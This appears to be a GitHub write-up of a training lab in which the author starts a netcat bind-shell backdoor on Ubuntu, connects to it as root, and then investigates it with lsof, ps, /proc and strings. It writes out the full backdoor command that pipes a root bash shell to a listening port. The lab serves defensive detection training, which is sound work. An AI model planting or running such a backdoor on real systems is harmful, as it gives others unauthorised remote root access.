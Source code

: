 <h1>Linux CLI Lab</h1>



<h2>Languages and Utilities Used</h2>

- <b>Linux</b> 


<h2>Environments Used </h2>

- <b>Ubuntu terminals</b> 
- <b>VM Ware</b>

<h2>Program walk-through:</h2>

<p align="left">
In this Antisyphon lab (part of their fantastic SOC Core skills course with John Strand), I was looking at a backdoor using the Linux CLI.

I used a large number of basic commands to get a better understanding of what the backdoor is and what it does.

For this lab I ran three different Ubuntu terminals.

The first was where we run the backdoor.

The second was where we connect to it.

The third was where we ran the analysis.

<br/>

<br />On the Linux terminal, I used sudo su - to get a root prompt. This was so we could have a backdoor running as root and a connection from a different user account on the system.

  <p align="left">
I next needed to create a fifo backpipe:
    mknod backpipe p
Next, let's start the backdoor with the following command:

/bin/bash  0<backpipe | nc -l 2222 1>backpipe

This was complicated for me but this basically created a backdoor listening on port 2222 of the linux system. 

I had to find the IP address of our linux system using ifconfig command:

<br/>
<img src="https://github.com/mdnorris1/LinuxCLILab/blob/main/assets/ifconfig.png" height="80%" width="80%" alt="ifconfig command"/>
<br />

Then we connected via the command

 nc <whatever the ip address is here!> 2222


The following commands made sure it was working

ls

whoami

You can see below I was connected to the simple Linux backdoor as root, as it just dropped the cursor back to the left side of the screen.

<br/>
<img src="https://github.com/mdnorris1/LinuxCLILab/blob/main/assets/Clipboard_2020-12-11-07-19-48.png" height="80%" width="80%" alt="ifconfig command"/>
<br />

Next I had to open another Ubuntu terminal to start the analysis. 

I then went back to being root using sudo su - because looking at network connections and process information systemwide requires root access. 

I used the command lsof to look at the network connections and open files. 

When we use the -i flag we are looking at the open Internet connections. When we use the -P flag we are telling lsof to not try and guess what the service is on the ports that are being used. Just give us the port number. 

lsof -i -P

<br/>
<img src="https://github.com/mdnorris1/LinuxCLILab/blob/main/assets/lsof.png" height="80%" width="80%" alt="ifconfig command"/>
<br />

Next was digging into the netcat process ID using the lowercase p. This will give us all the open files associated with the listed process ID eg 131.

lsof -p 131

<br/>
<img src="https://github.com/mdnorris1/LinuxCLILab/blob/main/assets/lsof%202.png" height="80%" width="80%" alt="ifconfig command"/>
<br />


Let's look at the full processes. We can do this with the ps command. We are also adding the aux switches. This is a for all processes, u for sorted by user and x to include the processes using a teletype terminal.

ps aux

<br/>
<img src="https://github.com/mdnorris1/LinuxCLILab/blob/main/assets/lsof%203.png" height="80%" width="80%" alt="ifconfig command"/>
<br />


Let's change directories into the proc directory for that pid. Remember, proc is a directory that does not exist on the drive. It allows us to see data associated with the various processes directly. This can be very useful as it allows us to dig into the memory of a process that is currently running on a suspect system.

cd /proc/[pid]

We can see a number of interesting directories here using the ls command:

ls

<br/>
<img src="https://github.com/mdnorris1/LinuxCLILab/blob/main/assets/ls.png" height="80%" width="80%" alt="ifconfig command"/>
<br />

We can run strings on the exe in this directory. This is very, very useful as when programs are created there may be usage information, mentions of system libraries and possible code comments. We use this all the time to attempt to identify what exactly a program is doing.

strings ./exe

<br/>
<img src="https://github.com/mdnorris1/LinuxCLILab/blob/main/assets/strings.png" height="80%" width="80%" alt="ifconfig command"/>
<br />


<!--
 ```diff
- text in red
+ text in green
! text in orange
# text in gray
@@ text in purple (and bold)@@
```
--!>
